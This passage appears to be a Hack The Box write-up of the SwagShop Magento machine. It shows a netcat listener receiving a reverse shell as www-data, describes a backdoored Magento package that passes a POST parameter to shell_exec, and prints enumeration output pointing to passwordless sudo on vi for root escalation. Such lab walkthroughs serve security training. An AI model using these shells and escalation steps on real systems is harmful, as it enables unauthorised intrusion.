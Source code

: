 ![](SwagShop_Web7.png)

On the NetCat Side,
```
# nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.140] 41202
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

###### `Method 2: Simple Backdoor'ed Magento Package`

The GitHub Repo [Lavalamp_Magento](https://github.com/lavalamp-/LavaMagentoBD) can be used to get the same reverse shell. Something I read on the GitHub Repo.
```
Upload the lavalamp_magento_bd.tgz file to a Magento Connect instance and then navigate to /index.php/lavalamp/index. The shell is a simple command shell that will take $_POST['c'], pass it to shell_exec, and echo back the contents. Nothing fancy.
```

Apparently, this box was earlier vulnerable to this method however, upon doing it again, It was not. But worth to record the method here.

```
www-data@swagshop:/home/haris$ cat user.txt
cat user.txt
6f8839fade95*********************
```
Grab your user flag.

### `Privilege Escalation`

###### `LinPeas Findings`
```
OS: Linux version 4.15.0-213-generic (buildd@lcy02-amd64-079) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023
Sudo version 1.8.21p2 
```

###### `LinEnum Findings`
```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[+] Possible sudo pwnage!
/usr/bin/vi
```
